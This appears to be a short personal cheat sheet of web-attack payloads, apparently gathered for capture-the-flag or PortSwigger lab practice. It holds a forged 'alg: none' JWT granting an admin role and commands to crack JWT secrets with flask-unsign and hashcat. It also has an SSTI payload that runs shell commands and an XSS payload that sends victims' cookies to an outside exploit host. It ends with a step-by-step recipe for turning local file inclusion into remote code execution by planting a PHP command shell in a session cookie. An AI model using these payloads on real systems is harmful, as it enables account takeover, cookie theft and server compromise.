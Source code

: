 space php use in filter
```php
php://filter/convert.iconv.utf-8.utf-16le/resource=file://
```
---

in JWT 
```JSON 
{
  "typ": "JWT",
  "alg": "none"
}
```
none or NoNe or noNE ...etc                                                            
Don't send the SIGNATURE send like this :

`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ.`
and don't forget dot `.` 

---
to crack jwt use it command :
```bash
flask-unsign --unsign --no-literal-eval --wordlist /usr/share/wordlists/rockyou.txt --cookie eyJsb2dpbiI6dHJ1ZSwidXNlciI6Im1vaG5hZCIsImFsZyI6IkhTMjU2In0.Ywfvv703.uwZ8eXSTttoVjrXphTqPQprtQod81UmIo6xRfcWY3ao
```

---
```
in php " " == ${IFS}
```
---
[backdore php](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html)

---
xss ngrpk paylode
```js
<script> var i=new Image(); i.src='https://exploit-0acc00b804bd4cfac0c1a75b017a007d.web-security-academy.net/exploit?='+document.cookie</script>
```

---
JWT Brute-forcing secret keys using hashcat

```bash
hashcat -a 0 -m 16500 <jwt> <wordlist>
```

---
[Algorithm confusion attacks](https://portswigger.net/web-security/jwt/algorithm-confusion)

Check /jwks.json or /.well-known/jwks.json

---
  SSTI use ${<path>.os.popen("id").read()} 
  
---
  
if u have access to value PHPSSID and find `LFI` u have `RCE` 
1- guess where save value of cookies `PHPSSID' dir 
   > in common `/var/` or `/tmp`
2- send php code in cookies like 
  ```bash
  curl example.com --cookie "Name=<php? system($GET['cmd']); ?>"
  ```
3- go to this dir and send parameter 
  
 ---
  tips for lfi 
  you can use $WEBROOT 
